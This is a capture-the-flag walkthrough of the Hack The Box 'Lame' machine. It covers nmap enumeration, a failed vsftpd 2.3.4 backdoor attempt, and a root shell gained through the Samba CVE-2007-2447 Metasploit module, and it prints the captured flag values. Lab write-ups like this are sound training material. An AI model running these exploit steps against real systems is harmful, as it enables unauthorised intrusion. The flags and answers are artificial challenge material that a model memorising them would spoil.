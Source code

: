 # [Lame](https://app.hackthebox.com/machines/1) | Cyanyde

 Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.

### How many of the nmap top 1000 TCP ports are open on the remote host?

<code>nmap \<target ip> --top-ports 1000</code> returns:

```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

> There are **4** of the top 1000 ports open on our target machine

### What version of VSFTPd is running on Lame?

<code>nmap -sV \<target ip></code> returns the service version running on each port:

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

> **vsftpd 2.3.4** is running on tcp port 21

### There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?

- <code>searchsploit vsftpd 2.3.4</code> shows us that there is a Backdoor Command Execution exploit with a Metasploit module associated with it
- Running `msfconsole` and using <code>search vsftpd 2.3.4</code> shows us that there is 1 module that matches our service version
    - `use 0` or `use exploit/unix/ftp/vsftpd_234_backdoor` will select this module from our search results
    - `show options` will show us the configurable options for this module
    - `set RHOSTS` to the target IP
    - *This module does not support check*
    - `run` or `exploit` to begin launch exploit
    - Returned error: `[*] Exploit completed, but no session was created.`

> vsFTPd backdoor exploit does not work on this host (**no**)

### What version of Samba is running on Lame? Give the numbers up to but not including "-Debian".

- Looking back at our `nmap -sV` results, specific Samba version is not listed
- We can use the `auxiliary/scanner/smb/smb_version` module in Metasploit to find our Samba version
    - `set RHOSTS` to target IP
    - `exploit` or `run` to start

> Our Metasploit module returns Samba **3.0.20**-Debian

### What 2007 CVE allows for remote code execution in this version of Samba via shell metacharacters involving the `SamrChangePassword` function when the "username map script" option is enabled in `smb.conf`?

- `searchsploit samba 3.0.20 -v -www` gives us a link to the [exploit](https://www.exploit-db.com/exploits/16320) on exploit-db.com

> This exploit is **CVE-2007-2447**

### Exploiting CVE-2007-2447 returns a shell as which user?

- Since we discovered a Metasploit module correlated to this CVE, we can leverage it to gain access
    - `search samba 3.0.20` within Metasploit and `use 0` since it is the first result or `use exploit/multi/samba/usermap_script`
    - `set RHOSTS` to target IP and `set RPORT` if necessary
    - `set LHOST` to attack machine IP or VPN IP
    - `run` or `exploit` to start
    - Command shell opened

> `whoami` returns **root**

### Submit the flag located in the makis user's home directory.

- `cd /home/makis` to change into makis' home directory
- `ls -a` to display all files within the directory

>  <details><summary><code>cat user.txt</code> to get the flag: </summary>4411c9e40952e55e551ddadb1ea91542</details>

### Submit the flag located in root's home directory.

- `cd /root` to change into root's directory
- `ls -a` to display all files within directory

>  <details><summary><code>cat root.txt</code> to get the flag: </summary>12814c6f2e2b78b128f42708d0619da9</details>

### Our initial nmap scan showed four open TCP ports. Running netstat -tnlp shows many more ports listening, including ones on 0.0.0.0 and the boxes external IP, so they should be accessible. What must be blocking connection to these ports?

> Since the ports listed (including the port that VSFTPd was running on) are open and listening, our connection to those ports are likely blocked by a **firewall**

### When the VSFTPd backdoor is trigger, what port starts listening?

- The box points to [this](https://www.exploit-db.com/exploits/49757) exploit

> The code uses the function `Telnet(host, 6200)` to open port **6200**

